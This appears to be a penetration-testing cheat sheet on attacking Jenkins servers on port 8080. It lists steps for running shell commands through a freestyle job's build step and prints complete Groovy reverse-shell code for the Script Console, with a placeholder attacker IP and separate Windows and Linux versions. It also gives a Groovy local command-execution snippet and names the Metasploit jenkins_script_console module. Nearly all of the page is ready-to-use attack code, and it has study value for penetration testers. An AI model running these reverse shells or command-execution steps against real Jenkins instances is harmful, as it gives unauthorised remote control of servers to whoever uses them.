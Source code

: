 # 8080 - Jenkins

## Exploitation

### Basic command execution (Authenticated)

* &#x20;Press 'Create a job'
* Choose a name and  Create new freestyle project&#x20;
* In the `build` section press `Execute shell`
* Enter the command you would like (based on OS)
* Press 'Save'
* On the project dashboard go to `Build now`
* Press the newly created number under 'Build History'
* Press `Console houtput`
* See output of the command.
* To execute a different command press 'back to project' and then 'configure'



### Groovy Script

Jenkins features a nice Groovy script console which allows one to run arbitrary Groovy scripts within the Jenkins master runtime or in the runtime on agents.

Specially crafted script written in groovy to make a reverse shell

> String host="{your\_IP}"; int port=8000; String cmd="/bin/bash"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()) {while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read()); while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){\}};p.destroy();s.close();

#### Reverse Shell from the web interface

At Jenkins Dashboard go to `Manage Jenkins` and then select `Script Console`, run the following code for reverse shell:

For windows:

```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

#### Linux:

```
String host="localhost";
int port=8044;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

#### Executing commands local:

```
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'ipconfig'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

#### Metasploit

uses the Jenkins-CI Groovy script console to execute OS commands using Java:

```
use exploit/multi/http/jenkins_script_console
```
